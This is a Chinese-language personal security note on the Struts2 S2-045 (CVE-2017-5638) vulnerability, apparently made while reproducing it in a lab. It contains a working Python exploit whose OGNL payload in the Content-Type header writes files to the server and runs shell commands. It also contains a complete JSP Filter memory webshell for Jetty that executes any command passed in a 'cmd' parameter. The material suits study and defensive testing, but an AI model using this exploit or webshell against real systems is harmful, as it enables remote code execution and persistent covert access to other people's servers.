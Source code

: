 ```yaml
---
date: 2024-09-12
---
```


# s2-045内存马

> [S2-045 写入内存马 - ccadmin - 博客园 (cnblogs.com)](https://www.cnblogs.com/tide-sec/p/16304736.html)
>
> [s2-045真正一键getshell菜刀马-突破任何限制 | pirogue](http://pirogue.org/2017/03/09/s2-045真正一键getshell菜刀马-突破任何限制/)

---

## 漏洞概述

- 漏洞编号: CVE-2017-5638 Struts2远程代码执行漏洞
- 漏洞类型: 远程代码执行漏洞
- 危险等级: 高危
- 利用条件: Struts2在受影响版本内，并包含Commons-FileUpload、Commons-IO库
- 受影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。

Struts2在受影响版本内，并包含Commons-FileUpload、Commons-IO库时, 该漏洞能够通过构造恶意的 Content-Type 值来执行任意代码。 如果 Content-Type 值无效，则会抛出异常，并向用户显示错误消息，从而能够进一步获取服务器权限。

- 安装官方补丁升级到最新版本: Struts 2.3.32 or Struts 2.5.10.1
- 临时修复方法: Struts2 默认使用 Jakarta 的 Common-FileUpload 文件上传解析器, 修改上传解析器为cos或pell。

---

## 漏洞分析

> [JavaSec/7.Struts2专区/S2-045漏洞分析/index.md at main · Y4tacker/JavaSec (github.com)](https://github.com/Y4tacker/JavaSec/blob/main/7.Struts2专区/S2-045漏洞分析/index.md)
>
> 

---

## 命令执行写文件

```python
import httpx
from pathlib import Path
import urllib.parse


# 定义读取文件内容的函数
def read_file(file_path):
    with open(file_path, "r", encoding="utf-8") as file:
        return file.read()


# 读取 index.jsp 文件的内容
CURRENT_DIR = Path(__file__).parent
# file_path = CURRENT_DIR / 'index.jsp'
file_path = CURRENT_DIR / "testFile.txt"

content = read_file(file_path)
# encoded_content = content.encode('utf-8')
content_encoded = urllib.parse.quote(content)

# 设置请求的 URL
url = "http://192.168.1.215:8080/"

# filename = "/index.jsp"
filename = "/testFile.txt"


# 设置请求头
headers = {
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.8,es;q=0.6",
    "Connection": "close",
    "Content-Type": f"%{{(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ccccc='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#path=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest').getSession().getServletContext().getRealPath('/')).(#shell='{content_encoded}').(new java.io.BufferedWriter(new java.io.FileWriter(#path+'{filename}').append(new java.net.URLDecoder().decode(#shell,'UTF-8'))).close()).(#cmd='echo \\\"write file to '+#path+'\"+ self.num +\"t00ls.jsp\\\"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{{'cmd.exe','/c',#cmd}}:{{'/bin/bash','-c',#cmd}})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}}.multipart/form-data",
}

# 发送 POST 请求
response = httpx.post(url, headers=headers)

# 打印响应结果
print(response.status_code)
print(response.text)

```

![image-20240920152239164](http://cdn.ayusummer233.top/DailyNotes/202409201522232.png)

![image-20240920152302098](http://cdn.ayusummer233.top/DailyNotes/202409201523134.png)

---

## 命令执行写 Filter 内存马

适用于当前环境的 Filter 内存马:

```jsp
<%@ page import="java.lang.reflect.Field"%>
<%@ page import="java.lang.reflect.Method"%>
<%@ page import="java.util.Scanner"%>
<%@ page import="java.util.EnumSet"%>
<%@ page import="java.io.*"%>

<%
    String filterName = "myFilter";
    String urlPattern = "/filter";
    Filter filter = new Filter() {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
        }
        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            HttpServletRequest req = (HttpServletRequest) servletRequest;
            if (req.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[] {"sh", "-c", req.getParameter("cmd")} : new String[] {"cmd.exe", "/c", req.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner( in ).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                servletResponse.getWriter().write(output);
                servletResponse.getWriter().flush();
                return;
            }
            filterChain.doFilter(servletRequest, servletResponse);
        }
        @Override
        public void destroy() {
        }
    };

    Method threadMethod = Class.forName("java.lang.Thread").getDeclaredMethod("getThreads");
    threadMethod.setAccessible(true);
    Thread[] threads = (Thread[]) threadMethod.invoke(null);
    ClassLoader threadClassLoader = null;

    for (Thread thread:threads)
    {
        threadClassLoader = thread.getContextClassLoader();
        if(threadClassLoader != null){
            if(threadClassLoader.toString().contains("WebAppClassLoader")){
                Field fieldContext = threadClassLoader.getClass().getDeclaredField("_context");
                fieldContext.setAccessible(true);
                Object webAppContext = fieldContext.get(threadClassLoader);
                
                // 打印调试信息
                out.println("webAppContext class: " + webAppContext.getClass().getName() + "<br>");
                out.println("webAppContext superclass: " + webAppContext.getClass().getSuperclass().getName() + "<br>");
                
                try {
                    // 获取 _servletHandler 字段
                    Field fieldServletHandler = webAppContext.getClass().getSuperclass().getSuperclass().getDeclaredField("_servletHandler");
                    fieldServletHandler.setAccessible(true);
                    Object servletHandler = fieldServletHandler.get(webAppContext);
                    Field fieldFilters = servletHandler.getClass().getDeclaredField("_filters");
                    fieldFilters.setAccessible(true);
                    Object[] filters = (Object[]) fieldFilters.get(servletHandler);
                    boolean flag = false;
                    for(Object f:filters){
                        Field fieldName = f.getClass().getSuperclass().getDeclaredField("_name");
                        fieldName.setAccessible(true);
                        String name = (String) fieldName.get(f);
                        if(name.equals(filterName)){
                            flag = true;
                            break;
                        }
                    }
                    if(flag){
                        out.println("[-] Filter " + filterName + " exists.<br>");
                        return;
                    }
                    out.println("[+] Add Filter: " + filterName + "<br>");
                    out.println("[+] urlPattern: " + urlPattern + "<br>");
                    ClassLoader classLoader = servletHandler.getClass().getClassLoader();
                    Class sourceClazz = null;
                    Object holder = null;
                    Field field = null;
                    try{
                        sourceClazz = classLoader.loadClass("org.eclipse.jetty.servlet.Source");
                        field = sourceClazz.getDeclaredField("JAVAX_API");
                        Method method = servletHandler.getClass().getMethod("newFilterHolder", sourceClazz);
                        holder = method.invoke(servletHandler, field.get(null));
                    }catch(ClassNotFoundException e){
                        sourceClazz = classLoader.loadClass("org.eclipse.jetty.servlet.BaseHolder$Source");
                        Method method = servletHandler.getClass().getMethod("newFilterHolder", sourceClazz);
                        holder = method.invoke(servletHandler, Enum.valueOf(sourceClazz, "JAVAX_API"));
                    }
                    holder.getClass().getMethod("setName", String.class).invoke(holder, filterName);               
                    holder.getClass().getMethod("setFilter", Filter.class).invoke(holder, filter);
                    servletHandler.getClass().getMethod("addFilter", holder.getClass()).invoke(servletHandler, holder);

                    Class  clazz         = classLoader.loadClass("org.eclipse.jetty.servlet.FilterMapping");
                    Object filterMapping = clazz.newInstance();
                    Method method        = filterMapping.getClass().getDeclaredMethod("setFilterHolder", holder.getClass());
                    method.setAccessible(true);
                    method.invoke(filterMapping, holder);
                    filterMapping.getClass().getMethod("setPathSpecs", String[].class).invoke(filterMapping, new Object[]{new String[]{urlPattern}});
                    filterMapping.getClass().getMethod("setDispatcherTypes", EnumSet.class).invoke(filterMapping, EnumSet.of(DispatcherType.REQUEST));
                    servletHandler.getClass().getMethod("prependFilterMapping", filterMapping.getClass()).invoke(servletHandler, filterMapping);
                } catch (NoSuchFieldException e) {
                    out.println("Error: " + e.getMessage() + "<br>");
                }
            }     
        }
    }
%>
```

和上一步写文件的操作一样, 将此 JSP 内容写入到 webapp 目录下, 访问此文件对应 URL, 第二次访问如果注册成功会输出 `Filter myFilter exists`:

![image-20240920152602531](http://cdn.ayusummer233.top/DailyNotes/202409201526590.png)

然后使用注入的 filter 路由执行命令即可:

![image-20240920152653579](http://cdn.ayusummer233.top/DailyNotes/202409201526648.png)

---

## Servlet马

> TODO: vulhub docker 没复现出来, 暂且搁置
>
> [S2-045 写入内存马 - ccadmin - 博客园 (cnblogs.com)](https://www.cnblogs.com/tide-sec/p/16304736.html)
>
> 





---

## 其他内存马

- Github 全局搜索找到的一个 Struts2 内存马, 但是没看出来作用:

  [JYso/src/main/java/com/qi4l/JYso/template/memshellStatic/struts2/Struts2ActionMS.java at master · qi4L/JYso (github.com)](https://github.com/qi4L/JYso/blob/master/src/main/java/com/qi4l/JYso/template/memshellStatic/struts2/Struts2ActionMS.java)

  









